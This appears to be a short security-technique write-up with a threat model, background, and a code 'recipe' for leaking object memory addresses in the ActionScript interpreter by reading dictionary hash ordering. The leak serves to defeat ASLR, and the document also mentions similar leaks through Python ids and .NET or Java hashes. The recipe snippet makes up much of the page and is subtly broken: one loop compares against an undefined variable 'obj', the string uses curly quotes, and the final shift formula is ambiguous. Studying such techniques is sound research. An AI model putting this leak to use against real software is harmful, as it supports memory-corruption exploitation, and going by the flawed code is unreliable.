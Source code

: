### Attack Summary

***Pointer inference:*** Recovering the memory address of an internal object via "normal" (non-exploit) interactions with target software.

### Attacker Threat Model

The attacker has access to the VM of a dynamically typed language ((ECMA|Java|Action)Script, Java, Python, etc.) can write a script and execute it. DEP and ASLR memory protection are in action.

### Background

ActionScript interpreter represents internal objects using ***tagged pointers (atoms)***. The tag can be read to determine if it is stored by value or reference (string or object). The ActionScript dictionary exposes an associative map data structure to associate any ActionScript object with another. It is implemented as a hashtable that derives the hash from the key atom and stores the key and value atom together in the table.

### Recipe

```javascript
// First, create the Dictionaries
var even = new Dictionary();
var odd = new Dictionary();
// Now, fill the Dictionary objects with the integer atoms
var index;
for (index = 0; index < 8; index += 1) {
    even[index * 2] = true;
    odd[index * 2 + 1] = true;
}
// The victim object is added to both dictionaries
var victim = “AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA”;
even[victim] = true;
odd[victim] = true;
// The two integers before the victim
var curr, evenPrev, oddPrev;
for (curr in even) {
    if (curr == victim) { break; }
    evenPrev = curr;
}
for (curr in odd) {
    if (curr == obj) { break; }
    oddPrev = curr;
}
```

The two integers should differ by 17 due to linear probe on collision. In this case, the smaller value is from the dictionary that does not have the collision. If it is anything else, the probe wrapped and the larger value is from the dictionary that did not have the collision. Once the integer is found, it can be turned into an atom that is 8 smaller than the victim atom. So (x << 3 + 8) or ((x+1) << 3).

Data structure leaks can also involve: *internal ids (Python), hash functions (.NET or Java).*
